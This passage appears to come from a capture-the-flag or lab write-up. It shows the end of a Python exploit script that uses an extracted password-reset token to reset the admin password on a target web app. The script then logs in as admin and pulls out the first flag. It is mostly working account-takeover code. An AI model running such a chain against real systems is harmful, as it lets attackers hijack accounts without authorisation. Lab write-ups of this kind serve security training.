 ```py
    global token_change
    token_change = ''.join(token_password)
    print("[+] Got the token for the user id %s = %s !! [+]" %(user_id,token_change))

# Function to change the password
def changePassword(rhost,token_change):
    print("[+] Let's change the password now !! [+]")
    url = "http://%s:80/login/doChangePassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"token": "%s" %token_change, "password": "0x4rt3mis"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Password Changed !!! [+]")
    
# Function to login in the web app
def loginApp(rhost):
    print("[+] Let's Login as Admin !! [+]")
    url = "http://%s:80/login/checkLogin.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password": "0x4rt3mis"}
    login_page = r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Logged In !!! Let's catch the flag one !! [+]")
    index = login_page.text.find("FLAG1")
    flag = login_page.text[index:index+60].split(':')[1]
    flag = flag.split(' ')[1]
    print("[+] The Flag 01 is: %s [+]" %flag)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-uid', '--username', help='User Id to be extracted', required=True)
    args = parser.parse_args()

    rhost = args.target
    user_id = args.username

    '''Here we call the functions'''
    # Send the token to the email
    sendToken(rhost,user_id)
    # Extract the admin token
    valueExtract(rhost,user_id)
    # Change password
    changePassword(rhost,token_change)
    # Login and get the flag1
    loginApp(rhost)

if __name__ == '__main__':
    main()
```

Let's continue now, once we are logged in
